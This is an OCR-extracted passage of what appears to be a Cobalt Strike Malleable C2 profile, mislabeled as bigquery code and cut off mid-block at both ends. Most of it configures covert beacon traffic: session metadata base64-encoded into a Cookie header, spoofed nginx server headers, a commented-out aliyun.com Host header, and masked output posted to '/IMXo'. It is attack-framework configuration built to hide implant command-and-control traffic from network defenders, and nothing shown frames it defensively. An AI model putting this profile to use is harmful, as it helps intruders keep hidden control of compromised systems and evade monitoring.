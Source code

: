 ```bigquery
#header "Host" "aliyun.com";
# base64 encode session metadata and store it in the Cookie header.
metadata {
			base64url;
prepend "SESSIONID=";
header "Cookie";
}
	}

	server {
		# server should send output with no changes
#header "Content-Type" "application/octet-stream";
header "Server" "nginx/1.10.3 (Ubuntu)";
header "Content-Type" "application/octet-stream";
header "Connection" "keep-alive";
header "Vary" "Accept";
header "Pragma" "public";
header "Expires" "0";
header "Cache-Control" "must-revalidate, post-check=0, pre-check=0";

output {
			mask;
netbios;
prepend "data=";
append "%%";
print;
}
	}
}

# define indicators for an HTTP 
http-post {
	# Same as above, Beacon will randomly choose from this pool of URIs [if multiple URIs are provided]
set uri "/IMXo";
client {
#header "Content-Type" "application/octet-stream";

# transmit our session identifier as /submit.php?id=[identifier]

id {				
			mask;
netbiosu;
prepend "user=";
append "%%";
header "User";
}

		# post our output with no real changes
		output {
			mask;
base64url;
prepend "data=";
append "%%";
print;
}
	}

	# The server's response to our HTTP POST
	server {
		header "Server" "nginx/1.10.3 (Ubuntu)";
header "Content-Type" "application/octet-stream";
header "Connection" "keep-alive";
```